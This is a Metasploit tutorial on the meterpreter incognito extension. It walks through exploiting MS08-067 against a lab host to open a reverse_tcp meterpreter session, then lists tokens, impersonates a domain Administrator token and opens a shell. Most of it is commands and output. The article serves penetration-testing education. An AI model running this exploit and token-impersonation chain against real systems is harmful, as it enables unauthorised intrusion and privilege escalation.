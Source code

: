 ```yaml
---
draft: false
title: MSF Incognito
linkTitle: MSF Incognito
translationKey: msf-incognito
weight: 280
date: 2017-06-05T13:24:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Gaining access to a system, you can use the token and permissions called incognito. This article explains how to use the incognito module in Metasploit Framework.
url: /msf-incognito/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## What is Incognito?

When you log in to a system, there are permission and authorization rules called **token** for the users in the system. These rules are similar to cookie files used in web applications. When the user first connects to a service on the network (e.g. Net drive), they log in with their username and password. When they log in, the system defines a **token** for this user. Now, they will be able to use the service in the system without having to enter their password over and over again until the computer is shut down.

During pentest operations, seizing and using this **token** and its authorizations is called the **incognito** operation. **token** permissions are divided into two. These are called **delegate** and **impersonate**. We will continue to use their English forms so that the reader does not get confused.

Delegate: token permissions are used as declaratives. They are used in interactive sessions, for example, for operations such as remote desktop connections.

Impersonate: token permissions are personally generated permissions and are used for non-interactive services. For example, connecting to a network folder.

File servers are a very rich source of information for these token permissions.

When you capture a token on the target system, you no longer need to know the password of that user to connect to a service because authorization has already been done and authorization control is done in the background by relying on the **token** permission. When the meterpreter shell is opened on a system, the available **token** list should be checked.

## Let's Login to Meterpreter

In the example below, first the necessary settings are made using the `ms08_067_netapi` module and a session is opened.

```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST 10.211.55.140
RHOST => 10.211.55.140
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST 10.211.55.162
LHOST => 10.211.55.162
msf exploit(ms08_067_netapi) > set LANG english
LANG => english
msf exploit(ms08_067_netapi) > show targets

Exploit targets:

 Id Name
 -- ----
 0 Automatic Targeting
 1 Windows 2000 Universal
 2 Windows XP SP0/SP1 Universal
 3 Windows XP SP2 English (NX)
 4 Windows XP SP3 English (NX)
 5 Windows 2003 SP0 Universal
 6 Windows 2003 SP1 English (NO NX)
 7 Windows 2003 SP1 English (NX)
 8 Windows 2003 SP2 English (NO NX)
 9 Windows 2003 SP2 English (NX)
 10 Windows XP SP2 Arabic (NX)
 11 Windows XP SP2 Chinese - Traditional / Taiwan (NX)
msf exploit(ms08_067_netapi) > set TARGET 8
target => 8
msf exploit(ms08_067_netapi) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Triggering the vulnerability...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 1 opened (10.211.55.162:4444 -> 10.211.55.140:1028)

meterpreter >
```

## Let's Install the Incognito Module

After we have successfully opened a meterpreter session, we need to use the `incognito` module. Since the `incognito` module belongs to meterpreter, we activate the module with the `use incognito` command. Then, when you give the `help` command, we can see the commands specific to the `incognito` module.

```bash
meterpreter > use incognito
Loading extension incognito...success.
meterpreter > help

Incognito Commands
**=====**

 Command Description
 ------- -----------
 add_group_user Attempt to add a user to a global group with all tokens
 add_localgroup_user Attempt to add a user to a local group with all tokens
 add_user Attempt to add a user with all tokens
 impersonate_token Impersonate specified token
 list_tokens List tokens available under current user context
 snarf_hashes Snarf challenge/response hashes for **every token

meterpreter >
```

## Token List in the System

After loading the `incognito` module in Meterpreter, let's check the list with the `list_tokens` command. Some of the **token** permissions in the list may not even be accessible to Administrator users. The type we will be most interested in is the **SYSTEM** token permissions.

```bash
meterpreter > list_tokens -u

Delegation Tokens Available
**=============================**
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY ETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
**=============================**
NT AUTHORITY\ANONYMOUS LOGON

meterpreter >
```

If you noticed the token named `SNEAKS.IN\Administrator` in the list above, it is in the **Delegation** list. You need to personalize it by changing it to **Impersonation**. For this, we will use the `impersonate_token` command. Be careful to use two `\\` signs when entering the command. Even though `\` is only one in the list, two must be entered when entering the command.

```bash
meterpreter > impersonate_token SNEAKS.IN\\Administrator
[+] Delegation token available
[+] Successfully impersonated user SNEAKS.IN\Administrator
meterpreter > getuid
Server username: SNEAKS.IN\Administrator
meterpreter >
```

When the command was successfully completed, when we checked the user ID with the `getuid` command, we got the result `Server username: SNEAKS.IN\Administrator`.

## Opening a Shell with a New User

Let's log in to the command line with the `execute -f cmd.exe -i -t` command in Meterpreter and look at the Windows user ID with the `whoami` command. Here, the `-i` option means **interact***, and the `-t` option means using the newly acquired `SNEAKS.IN\Administrator` token permission.

```bash
meterpreter > shell
Process 2804 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32> whoami
whoami
SNEAKS.IN\administrator

C:\WINDOWS\system32>
```

You may encounter **token** permissions on personal computers more often on server computers. The list will be longer since many services on the servers are interactive and multi-user. Among these, you should try the most authorized **token** permissions.
